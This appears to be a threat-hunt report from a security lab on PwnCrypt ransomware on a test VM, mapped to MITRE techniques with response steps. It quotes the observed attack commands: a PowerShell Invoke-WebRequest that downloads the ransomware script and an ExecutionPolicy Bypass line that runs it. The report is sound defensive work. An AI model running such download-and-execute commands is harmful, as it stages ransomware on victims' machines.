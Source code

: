 
# Threat Hunt Report: PwnCrypt Ransomware on `yc-vm-mde`

## Who
- **Device:** `yc-vm-mde`
- **Account Involved:** `SYSTEM`
- **Executing Process:** `powershell.exe`, launched via `cmd.exe`

## When
- **Initial Script Download:** June 1, 2025
- **Execution Time:** June 1, 2025, 16:13:50 (4:13:50 PM)

## Where
- **Script Path:** `C:\ProgramData\pwncrypt.ps1`
- **Execution Origin:**  
  ```powershell
  powershell.exe -ExecutionPolicy Bypass -File C:\programdata\pwncrypt.ps1
  ```

## What
- The system executed a PowerShell script named `pwncrypt.ps1`, a known ransomware payload, using:
  ```powershell
  powershell.exe -ExecutionPolicy Bypass -File C:\programdata\pwncrypt.ps1
  ```
- This action was preceded by a web download using:
  ```powershell
  Invoke-WebRequest -Uri https://raw.githubusercontent.com/.../pwncrypt.ps1
  ```

## Why (MITRE Techniques)

| Tactic              | Technique                                | ID         |
|---------------------|-------------------------------------------|------------|
| Execution           | PowerShell Execution                      | T1059.001  |
| Ingress Tool Transfer | Script Download via Invoke-WebRequest | T1105      |
| Defense Evasion     | ExecutionPolicy Bypass                    | T1562.001  |
| Impact (attempted)  | File Encryption for Impact (not observed) | T1486 (suspected) |

## Summary
The ransomware `pwncrypt.ps1` was successfully downloaded and executed on the target device. However, no encrypted files with the `.pwncrypt.` extension were observed, and no evidence of data impact was detected in `DeviceFileEvents`. This suggests:
- The script may have failed during execution
- Endpoint protection may have blocked the encryption stage
- Or the script was executed in a limited or dry-run mode

## Recommended Actions
1. **Isolate Device:** Prevent potential spread if this was a test phase.
2. **Delete Script:** Manually remove `C:\programdata\pwncrypt.ps1`
3. **Block Download URL:** Add `raw.githubusercontent.com` to Defender URL blocklists if not already monitored.
4. **Run AV Scan:** Check for residual artifacts or persistence mechanisms.
5. **Monitor:** Enable alerting for any future `.pwncrypt.` or PowerShell abuse.
